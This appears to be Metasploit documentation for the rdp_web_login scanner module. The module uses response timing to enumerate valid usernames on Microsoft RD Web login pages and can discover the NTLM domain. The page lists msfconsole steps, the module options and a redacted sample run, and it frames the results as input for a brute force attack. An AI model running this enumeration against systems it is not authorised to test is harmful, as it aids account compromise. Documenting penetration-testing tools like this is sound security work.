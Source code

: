 ## Vulnerable Application

The Microsoft RD Web login is vulnerable to the same type of authentication username enumeration vulnerability that is present for OWA (see owa scanner modules). By analyzing the time it takes for a failed response, the RDWeb interface can be used to quickly test the validity of a set of usernames. Additionally, this module can attempt to discover the target NTLM domain if you don't already know it.

## Verification Steps


- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/http/rdp_web_login`
- [ ] `set rhost TARGET_IP`
- [ ] `set username USER_OR_FILE`
- [ ] `set domain DOMAIN` (Only if you don't want to test the domain discovery feature)
- [ ] Check output for validity of your test username(s)/domain


## Options

### domain

The target domain to use for the username checks. If not provided, enum_domain needs to be set to true so it can be discovered.

### enum_domain

Enumerate the domain by using an NTLM challenge/response and parsing the AD Domain out.

### username

Either a specific username to verify or a file with one username per line to verify.

## Scenarios
If an RDWeb login page is discovered, you can use this module to gather valid usernames for a brute force attack.

### Version and OS

Specific target output replaced with Ys so as not to disclose information
```msf6 > use auxiliary/scanner/http/rdp_web_login
msf6 auxiliary(scanner/http/rdp_web_login) > set username /home/kali/users.txt
username => /home/kali/users.txt
msf6 auxiliary(scanner/http/rdp_web_login) > set RHOSTS YY.YYY.YYY.YY
RHOSTS => YY.YYY.YYY.YY
msf6 auxiliary(scanner/http/rdp_web_login) > run

[*] Running for YY.YYY.YYY.YY...
[+] Found Domain: YYYYYYYYYYYY
[-] Username YYYYYYYYYYYY\wrong is invalid! No response received in 1250 milliseconds
[+] Username YYYYYYYYYYYY\YYYYY is valid! Response received in 628.877 milliseconds
[-] Username YYYYYYYYYYYY\k0pak4 is invalid! No response received in 1250 milliseconds
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```
